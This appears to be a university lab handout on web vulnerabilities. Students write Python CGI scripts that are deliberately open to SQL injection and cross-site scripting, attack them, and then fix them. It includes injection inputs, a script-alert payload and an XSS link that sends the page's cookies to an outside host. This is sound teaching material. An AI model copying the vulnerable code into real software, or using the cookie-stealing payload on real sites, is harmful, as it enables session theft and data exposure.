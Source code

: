 #+STARTUP: showall
#+STARTUP: lognotestate
#+TAGS:
#+SEQ_TODO: TODO STARTED DONE DEFERRED CANCELLED | WAITING DELEGATED APPT
#+DRAWERS: HIDDEN STATE
#+TITLE: Web vulnerabilities
#+CATEGORY: todo


* Web vulnerabilities

This week we will continue on Web vulnerabilities. I know that many of you did not complete Lab06. So this lab will replace the last part of that lab.

* CGI scripting

CGI-Scripting is the simplest way to create functionality in a webserver. Any more complex technology (such as Ruby on Rails) is based on CGI.

Read about CGI here: http://www.tutorialspoint.com/python/python_cgi_programming.htm

There are two ways for a client to send information to a CGI-script: one of them is POST and the other GET. Go back to the URL above and make sure you
understand what POST and GET are used for. For example, go to amazon.ca and search for a product. Does Amazon search use GET or POST? What about google.ca?

* Setup

For this lab we will need to use the machine roberts.seng.uvic.ca. Login in to it. In this machine go to the directory =/web/seng360/=. In here there should be
a directory with your username (for example, in my case, there is one called =/web/seng360/dmg/=.

Let us make sure things work. First create a file called =test.html= in this directory (i.e. =/web/seng360/<youruserid>/test.html=) that contains the following:


#+begin_example
<H1>Test</h1>

This is a test.
#+end_example

This has created a web page that should be found at: http://roberts.seng.uvic.ca/seng360/userid/test.html (replace userid with your userid).

If things are working properly, you  should be browsing the contents of this page.

It will be a good idea to monitor the error logs of the web server in case your Web pages or scripts do not work. They are located in the =roberts.seng.uvic.ca=
in directory =/web/seng360/logs/error_log=. In my opinion the easiest way to do this is by opening a window to =roberts= and executing:

#+begin_example
tail -f /web/seng360/logs/error_log 
#+end_example



* Part 1: SQL

** Creating =sqlForm.html=


First we need to create a Web form. This will gather information that will passed to our script. Read about HTML forms here: http://zipcon.net/~swhite/docs/computers/web/QuickHTML/Forms.html

Create a file called =sqlForm.html=

#+begin_src html
<h1>This a form to test our SQL script</h1>

<h3>This is a GET form</h3>
<form action="sql.py" method="get">
id: <input type="text" name="id"><br>
<input type="submit" value="Submit">
</form>

<h3>This is a POST form</h3>

<form action="sql.py" method="post">
id: <input type="text" name="id"><br>
<input type="submit" value="Submit">
</form>


#+end_src

Test it. Its url is http://roberts.seng.uvic.ca/seng360/userid/sqlForm.html (replace userid with your userid).

It should look something like this:

[[./sqlForm.png]]


** The Python script

We will now create the CGI script that responds to this form.

I have setup a mysql database in one of my computers. The Lab instructor will give you the details (hostname, username and password). Create a Python CGI-script
called =sql.py= with the following contents:

#+begin_src python
#!/usr/bin/python

import MySQLdb
import cgi, cgitb 


print "Content-type: text/html"
print ""

hostname="askLabInstructor"
username="seng360"
passwd = "askLabInstructor"
# Open database connection

try:
   db = MySQLdb.connect(hostname,username,passwd,"seng360" )
except:
   print "<h1>Unable to connect to database</h1>"
   exit

# Create instance of FieldStorage 
form = cgi.FieldStorage() 

if "id" not in form:
    print "<H1>Error please use the form and</H1>"
    print "Please fill in the <b>id</b> field."
    exit


id = form.getvalue('id')

# prepare a cursor object using cursor() method
cursor = db.cursor()

# Prepare SQL query to INSERT a record into the database.
sql = "SELECT id, field from test where id = "  + id




print "<h3>query to evaluate: "+sql + "</h3>"

try:

   # Execute the SQL command
   cursor.execute(sql)
   # Fetch all the rows in a list of lists.
   results = cursor.fetchall()

   print "<h3>Results for </h3>"
   print "<table border = 1>"
   for row in results:
      id = row[0]
      field = row[1]
      print "<tr><td>id=%d</td><td>field=%d</td></tr>" % \
          (id,field)
   print "</table>"

except:
   print "<h1>Error: unable to fetch data for id = [" + id + "]</h1>"


#+end_src


** Test the script

Load =sqlForm.html= again in your browser. Test  it with any of the following values: 1,5,10. Try both forms. Answer the following questions:

*Q1: What is the difference between using a POST and GET form to call a CGI-script* 

and

*Q2: Is one form more secure than the other? Explain*  (hint, look at the URL of the script)

*Q3: Is it really more secure? Explain*


** Do the injection attack

Reload the form. Use  the following as the value for id:

#+begin_src
1 or TRUE
#+end_src

As you can see, we now get all the values in the table. 

*Q4: Explain why the new value of /id/ tricks our form and is able to retrieve all the tuples in the table.*

** Fix the script

Injection attacks are common in SQL, hence libraries have learned to deal with them. Learn how to address it. In general the best method is using prepared
statements. The Python-MySQL library we are using does not support prepared statements, but it is capable of dealing with this problem. See this question in
Stack Overflow: http://stackoverflow.com/questions/7929364/python-best-practice-and-securest-to-connect-to-mysql-and-execute-queries

Fix your script. Test your script until the attack is no longer effective.

* Part 2: Cross-scripting attacks

Cross-scripting attacks are another common way to Web applications.

For this part of the assignment make sure that you use *Firefox*.

** Create another form

Create a Web page called =formXSS.html= with the following contents:

#+begin_src html
<h1>Cross scripting attack</h1>

This form will help us test cross-scripting attacks.

<form action="xssSimple.py" method="get">
User: <input type="text" name="user"><br>
<input type="hidden" name="notshown" value="abc"><br>
<input type="submit" value="Submit">
</form>
#+end_src

Test it.

** Create the script that will respond to this form

Create a script =xssSimple.py= that will respond to the form. Its contents should be:

#+begin_src python
#!/usr/bin/python

import cgi, cgitb 

print "Content-type: text/html"
print ""

# Create instance of FieldStorage 
form = cgi.FieldStorage() 
user = form.getvalue('user')

if "user" not in form:
    print "<H1>Error</H1>"
    print "Please fill in the <b>user</b> field."
    exit

print "<h1>Example of Simple Cross Scripting attack</h3>"
print "Hello [" + user + "]"
#+end_src

** Test the script

Test the script by submitting a value in the field =user= and submitting the form.

** A simple attack

In the form, submit the following (in the field =user=)

#+begin_src
<font color=red><b>dmg</b></font>
#+end_src

then try this:

#+begin_src
<h1>dmg</h1>
#+end_src

*Q5: Explain the impact of the attack and how it works*

** A more active attack

Are you using *Firefox*? If not, then use it. This next attack requires Firefox.

Input the following value in the /user/ field and hit submit again:

#+begin_src
<script>alert('attacked');</script>
#+end_src

** Stealing cookies

Create a script that sets a cookie. Call this script =cookies.py=

#+begin_src python
#!/usr/bin/env python

import cgi, cgitb 

import time, Cookie

# Instantiate a SimpleCookie object
cookie = Cookie.SimpleCookie()

# The SimpleCookie instance is a mapping
cookie['seng360'] = str(time.time())

# Output the HTTP message containing the cookie
#print cookie
print 'Content-Type: text/html\n'

# Create instance of FieldStorage 
form = cgi.FieldStorage() 
user = form.getvalue('user')

if "user" not in form:
    print "No <b>user</b> field has been set."
else:
   print "<h3>Hello [" + user + "]"
   print "</h3>"


print '<br><hr>'
print 'Server time is', time.asctime(time.localtime())
print '</body></html>'
#+end_src

Load the script. Now inspect the cookies in your browser to make sure the cookie was set. (In Firefox you can find the cookies in
/Preferences/Privacy/History/Remove Individual Cookies/ Make sure the cookie was set.

Let us create another web page to test it. This time we will call it =cookies.html=

#+begin_src html
<h1>Cross scripting attack</h1>

This form will help us test cross-scripting attacks.

<form action="cookies.py" method="get">
User: <input type="text" name="user"><br>
<input type="hidden" name="notshown" value="abc"><br>
<input type="submit" value="Submit">
</form>
#+end_src

Test it. It should behave as expected

** Stealing the cookie

Now pass the following string in the user field:

#+begin_example
<a href="cookies.py" onClick="javascript:document.location.replace('http://turingmachine.org/text' + escape(document.cookie)); return false;">my name</a>
#+end_example

As you can see, the location where the /Name/ should be displayed is now replaced with a link. Follow it. Look at the resulting URL. This URL does not exist,
but inspect the URL that you were trying to retrieve.

*Q6: What URL is displayed when the mouse is hovered over the link?*

*Q7: What is the full URL that is actually the link is followed? Why is this an attack?*

This attack is very pernicious. It is capable of stealing all the cookies of a site by simply logging the access to the destination Website.

* Part3 Cross-scripting attacks using Chromium

Try the same attacks on Chromium.

*Q8: Which of the attacks did not succeed when using Chromium? Why?*

* Part 4 Fix the vulnerability of Part 2 and Part 3

Fix the vulnerabilities in your scripts. Hint: see /cgi.escape/ in https://docs.python.org/2/library/cgi.html

* What to submit

Submit a zip file that contains:

- Your scripts
- Your HTML
- Your Answers



